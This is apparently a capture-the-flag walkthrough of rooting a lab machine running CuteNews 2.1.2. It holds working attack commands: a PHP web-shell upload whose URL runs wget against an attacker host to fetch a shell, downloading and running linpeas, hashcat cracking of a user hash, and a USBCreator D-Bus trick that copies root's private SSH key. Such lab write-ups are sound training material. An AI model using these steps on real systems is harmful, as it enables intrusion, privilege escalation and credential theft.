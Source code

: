 # Passage

## Enumeration

### Scan Report

```text
Host is up (0.17s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Port - 80 

**Dirbuster Report**

![](../../../.gitbook/assets/image%20%28117%29.png)

Cute News seems interesting.

![](../../../.gitbook/assets/image%20%28101%29.png)

**CuteNews Version: 2.1.2**

\*\*\*\*

## **Exploitation**

searchsploit cutenews

```text
CuteNews 2.1.2 - 'avatar' Remote Code Execution (Metasploit | php/remote/46698.rb
CuteNews 2.1.2 - Arbitrary File Deletion                    | php/webapps/48447.txt
CuteNews 2.1.2 - Authenticated Arbitrary File Upload        | php/webapps/48458.txt
CuteNews 2.1.2 - Remote Code Execution                      | php/webapps/48800.py
```

Lets run 4th Exploit

It created a user and now you can access the file in browser. 

**Uploading shell** 

```text
http://10.10.10.206/CuteNews/uploads/avatar_9vNU22mK3t_9vNU22mK3t.php?cmd=wget%20http://10.10.14.12:8000/shell2.php
```



## **Post Exploitation**

### **Full TTY**

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### **Current User**

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### **LinPeas**

```bash
cd /tmp
wget htt[://10.10.14.12:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### Nothing much interesting...

Search for password or csome configurations in www/html folder

```bash
find /var/www/html/CuteNews | grep -i password
find /var/www/html/CuteNews | grep -i database
find /var/www/html/CuteNews | grep -i sql
.
.
.
```

Users folder has some interesting dta which is base64 encoded

```bash
for i in $(find . -name "*.php" ); do tail -1 $i | base64 -d; echo; done;
```

Paul is a user of machine. Crack his obtained SHA2-256

```bash
hashcat -m 1400 -a 0 hash ~/PenetrationTesting/tools/rockyou.txt
```

Switch to paul from www-data

```bash
su paul
```

### User Flag

```bash
cat /home/paul/user.txt
```



### Check SSH Keys

```bash
cat /home/paul/.ssh/authorized_keys
```

![](../../../.gitbook/assets/image%20%2856%29.png)

This key is for Nadav. Generating public key to access using Nadav's account.



Download this key and login via ssh.

find usb creator reference in viminfo...



Check exploits: [https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /home/nadav/id_rsa true
()
```

```bash
ssh-keygen -y -f id_rsa
```

This gives us the key for SSH of root. we use it and get the flag.

